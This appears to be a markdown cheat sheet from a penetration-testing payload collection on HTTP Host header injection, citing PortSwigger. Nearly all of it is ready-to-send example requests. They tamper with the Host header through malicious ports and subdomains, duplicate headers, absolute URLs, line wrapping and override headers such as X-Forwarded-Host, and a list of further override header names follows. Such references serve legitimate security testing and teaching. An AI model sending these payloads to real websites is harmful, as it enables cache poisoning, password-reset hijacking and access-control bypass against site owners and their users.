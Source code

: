 - [Host_Header_Injection](#Host_Header_Injection)

# Host_Header_Injection

#### Malicious port
```
GET /example HTTP/1.1
Host: vulnerable-website.com:bad-stuff-here
```

#### Malicious subdomain
```
GET /example HTTP/1.1
Host: hacked-subdomain.vulnerable-website.com
```

#### Duplicate Host headers
```
GET /example HTTP/1.1
Host: vulnerable-website.com
Host: bad-stuff-here
```

#### Absolute URL
```
GET https://vulnerable-website.com/ HTTP/1.1
Host: bad-stuff-here
```

#### Line wrapping
```
GET /example HTTP/1.1
 Host: bad-stuff-here
Host: vulnerable-website.com
```

#### Inject headers
```
GET /example HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-Host: bad-stuff-here

X-Host
X-Forwarded-Server
X-HTTP-Host-Override
Forwarded
```
--------------------------------------------------------------------------------------------------------------------------------------------------------------------

References
- https://portswigger.net
